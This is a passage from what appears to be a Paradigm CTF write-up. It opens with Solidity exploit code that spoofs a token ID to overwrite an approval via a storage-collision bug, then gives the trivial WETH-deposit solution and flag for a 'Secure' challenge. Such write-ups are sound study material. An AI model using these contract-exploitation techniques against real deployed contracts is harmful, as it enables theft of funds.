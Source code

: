 ```solidity
        require(setup.isSolved(), "!solved");
    }

    function reclaimToken(bytes32 tokenId) internal {
        // change name of tokenId + 2, i.e., overwrite tokenId's approval.
        // passes ensureTokenOwner check because (tokenId+2) + 1 = tokenId's metadata
        bytes32 spoofTokenId = bytes32(uint256(tokenId) + 2);
        eternalStorage.updateName(
            spoofTokenId,
            bytes32(uint256(address(this)))
        );
        token.transferFrom(tokenId, address(market), address(this));
        token.approve(tokenId, address(market));
    }

    function fixMarketBalance(uint256 sentAmount) internal {
        // uint256 tokenPrice = market.tokenPrices(tokenId); // not public
        uint256 tokenPrice = (sentAmount * 10000) / (10000 + 1000);
        uint256 missingBalance = tokenPrice - address(market).balance;
        // send missing ETH to market by minting a new token
        market.mintCollectible{value: missingBalance}();
    }

    receive() external payable {}
}
```

## Secure

> My contract is 100% secure, it's impossible to hack.
>
> Flag: `PCTF{7h1nk1ng_0U751dE_7he_80X}`

There's a wallet contract only permitting certain pre-approved functions to be called.
After initially not finding the solution I set it aside for a bit and came back later to the challenge when I was more familiar with the CTF environment.
The provided account always starts with 5000 ETH and the challenge is solved if the `Setup` contract has 50 (W)ETH.

So, just send it what it `WANT`s.

```solidity
function isSolved() public view returns (bool) {
    return WETH.balanceOf(address(this)) == WANT;
}

function attack() external payable {
    // solution just checks if setup contract has 50 WETH
    // so just send it 50 WETH

    setup.WETH().deposit.value(msg.value)();
    setup.WETH().transfer(address(setup), setup.WANT());

    require(setup.isSolved(), "!solved");
}
```
